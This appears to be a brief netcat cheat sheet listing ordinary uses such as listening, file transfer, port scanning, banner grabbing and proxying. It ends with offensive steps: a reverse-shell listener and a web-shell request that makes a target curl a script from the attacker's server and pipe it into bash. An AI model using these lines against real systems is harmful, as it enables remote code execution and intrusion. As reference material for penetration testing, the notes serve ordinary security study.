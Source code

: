 #### `nc` (Netcat)

Netcat is a versatile networking utility that is used for reading from and writing to network connections using TCP or UDP protocols

# To listen on a specific port
nc -l -p <port>

# To connect to a server on a specific host and port
nc <host> <port>

File Transfer:

Netcat can be used to transfer files between systems.
bash

# On the receiving end
nc -l -p <port> > received_file

# On the sending end
nc <host> <port> < file_to_send


Port Scanning:

Netcat can be used for basic port scanning to check the status of ports on a remote server.
bash

nc -zv <host> <start_port>-<end_port>
Banner Grabbing:

Netcat can be used to grab banners or information from network services.
bash

nc -v <host> <port>

Chat Server and Client:

Netcat can facilitate simple chat communication between systems.
bash

# On the server
nc -l -p <port>

# On the client
nc <host> <port>

Proxying:

Netcat can act as a basic proxy to forward traffic between two hosts.
bash

# On the proxy server
nc -l -p <local_port> | nc <remote_host> <remote_port>

# On the client
nc -N <proxy_host> <proxy_port>

# Listen for resverse shell
nc -nvlp 1337

Launch a web server on your machine and visit the URL:
python3 -m http.server 8000
<hostname>/shell.php?cmd=curl%20<IP_ADDRESS>:8000/shell.sh|bash
